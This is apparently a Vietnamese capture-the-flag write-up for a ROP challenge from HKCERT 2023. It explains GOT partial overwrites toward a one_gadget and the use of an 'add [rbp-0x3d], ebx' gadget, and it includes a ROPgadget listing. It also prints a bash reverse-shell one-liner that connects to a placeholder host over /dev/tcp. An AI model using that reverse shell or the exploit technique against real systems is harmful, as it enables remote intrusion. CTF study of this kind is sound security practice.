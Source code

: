 1 mẹo nhỏ để tắt cảnh báo của alarm : **handle SIGALRM nopass** trong gdb

## EXPLOIT

- đầu tiên ta sẽ nghĩ đến cách mở lại **stdout** vì nếu nó bị đóng thì ta lấy shell cũng không được , [here](https://blog.idiot.sg/2018-09-03/tokyowesterns-ctf-2018-load-pwn/) có 1 cách để lấy là sử dụng **open** để lấy lại **stdout** tuy nhiên ở bài này không có hàm **open** hoặc bất kì gadget **syscall** nào  và ta sẽ tham khảo cách reverse_shell ở bài này [here](https://atum.li/2017/11/08/babyfs/#get-a-shell)

```bash
bash -c 'bash -i >& /dev/tcp/myipaddress/8888 0>&1
```

- tiếp theo ta sẽ tìm 1 cách để lấy shell , ở bài này ta không thể leak libc , mặc dù có thể control được rdi , rsi , rdx , tuy nhiên ta lại không có syscall để thực thi execve('/bin/sh', 0, 0)

- lúc này ta có thể đọc 1 bài viết trên reddit [redit](https://www.reddit.com/r/securityCTF/comments/n3x0ha/is_there_a_way_to_leak_addresses_without_output/) , nó đề cập đến việc lấy shell với điều kiện là không thể leak bất cứ thứ gì , điều kiện của kĩ thuật này là :
  - got có thể ghi 
- nếu 1 địa chỉ của **one_gadget** đủ gần với các địa chỉ got@libc , ta có thể ghi đè 2 bytes và lúc này tỉ lệ thành công là 2^4 (1/16)  
- 1 người khác cũng đề cập rằng anh ấy đã tìm kiếm được 1 gadget hữu ích **add [r14+0x90], r15**  , ta sẽ đặt **r14** thành địa chỉ exe@got-0x90 và **r15** sẽ là độ lệch giữa gots@libc với one_gadget 

- ở đây mình không biết tại sao **ropper** lại không tìm thấy điều này , thay vào đó ta sử dụng **ROPgadget** , nó ở **0x000000000040117c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret** , ta có thể control được cả rbp và rbx trong trường hợp này 

```cs
ploi@PhuocLoiiiii:~/pwn/rop-revenge_HKCERT-2023/chall/src$ ROPgadget --binary chall_patched
Gadgets information
============================================================
0x00000000004010dd : add ah, dh ; nop ; endbr64 ; ret
0x000000000040110b : add bh, bh ; loopne 0x401175 ; nop ; ret
0x00000000004012cc : add byte ptr [rax], al ; add byte ptr [rax], al ; endbr64 ; ret
0x0000000000401256 : add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret
0x0000000000401036 : add byte ptr [rax], al ; add dl, dh ; jmp 0x401020
0x000000000040117a : add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x00000000004012ce : add byte ptr [rax], al ; endbr64 ; ret
0x00000000004010dc : add byte ptr [rax], al ; hlt ; nop ; endbr64 ; ret
0x0000000000401258 : add byte ptr [rax], al ; pop rbp ; ret
0x000000000040100d : add byte ptr [rax], al ; test rax, rax ; je 0x401016 ; call rax
0x000000000040117b : add byte ptr [rcx], al ; pop rbp ; ret
0x000000000040110a : add dil, dil ; loopne 0x401175 ; nop ; ret
0x0000000000401038 : add dl, dh ; jmp 0x401020
0x000000000040117c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401177 : add eax, 0x2f0b ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401017 : add esp, 8 ; ret
0x0000000000401016 : add rsp, 8 ; ret
0x0000000000401201 : call qword ptr [rax + 0xff3c35d]
0x0000000000401235 : call qword ptr [rax + 0xff3c3c9]
0x000000000040103e : call qword ptr [rax - 0x5e1f00d]
0x0000000000401014 : call rax
0x0000000000401193 : cli ; jmp 0x401120
0x00000000004010e3 : cli ; ret
0x00000000004012db : cli ; sub rsp, 8 ; add rsp, 8 ; ret
0x0000000000401190 : endbr64 ; jmp 0x401120
0x00000000004010e0 : endbr64 ; ret
0x00000000004012ac : fisttp word ptr [rax - 0x7d] ; ret
0x00000000004010de : hlt ; nop ; endbr64 ; ret
0x0000000000401012 : je 0x401016 ; call rax
0x0000000000401105 : je 0x401110 ; mov edi, 0x404048 ; jmp rax
0x0000000000401147 : je 0x401150 ; mov edi, 0x404048 ; jmp rax
0x000000000040103a : jmp 0x401020
```